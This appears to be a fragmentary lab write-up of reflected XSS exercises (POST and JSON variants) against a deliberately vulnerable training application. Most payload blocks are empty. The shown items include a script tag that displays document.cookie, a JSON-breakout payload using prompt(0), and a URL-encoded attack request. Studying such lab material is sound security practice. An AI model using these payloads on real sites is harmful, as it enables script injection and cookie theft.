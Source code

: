 
### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  XSS - Reflected (POST) 💀
xss_post.php

the same but with POST request

```
<script>alert(document.cookie)</script>
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  XSS - Reflected (JSON) 💀

xss_json.php

```
"}]}';prompt(0)</script>

```
```
title="%7D%5D%7D%27%3Bprompt%28"Hi%2C+Enter+Your+Name+Other+wise+your+game+is+ver+%3A0"%29<%2Fscript>&action=search
```
